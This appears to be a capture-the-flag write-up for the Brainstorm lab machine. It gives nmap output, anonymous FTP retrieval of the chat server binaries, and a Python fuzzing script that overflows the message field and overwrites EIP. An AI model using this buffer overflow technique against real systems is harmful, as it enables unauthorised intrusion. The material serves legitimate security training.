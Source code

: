 > BrainStorm

# Nmap

nmap -sC -sV -T4 -Pn -vv -A -oN nmap/initial $IP

```
21/tcp   open  ftp                syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|_  SYST: Windows_NT
3389/tcp open  ssl/ms-wbt-server? syn-ack
9999/tcp open  abyss?             syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     Welcome to Brainstorm chat (beta)
|     Please enter your username (max 20 characters): Write a message:
|   NULL: 
|     Welcome to Brainstorm chat (beta)
|_    Please enter your username (max 20 characters):
```

We got FTP open and we can login anonymously and we got 2 files `chatserver.exe` and `essfunc.dll`.

**Note: Change to binary mode using `binary` before downloading from ftp**

We can connect to port 9999 using nc. And it is the chat server we are working with.

There are 2 paramters where we can search for buffer overflow. 

`Welcome to Brainstorm chat (beta)
Please enter your username (max 20 characters):`

And 

```
Write a message:
```

`python3 -c 'print "A" * 3000'`

So let's start with username. Hmm, didn't work. So let's go with message and we are stuck and connection is reset by peer.
Looking at Immunity Debbugger we can see that we have overwritten the EIP with `\x41\x41\x41\x41` that is `AAAA`.

# Boilerplate Code

```
import socket,sys

address = '10.10.201.170'
port = 9999

uname = "sam"

buffer = "A" * 3000

try:
		print '[+] Sending Buffer'
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((address,port))
		s.recv(1024)
		s.send(uname + '\r\n')
		s.recv(1024)
		s.send(buffer + '\r\n')
		s.recv(1024)
except:
		print '[!] unable to connect to application'
		sys.exit(0)
finally:
		s.close()
```

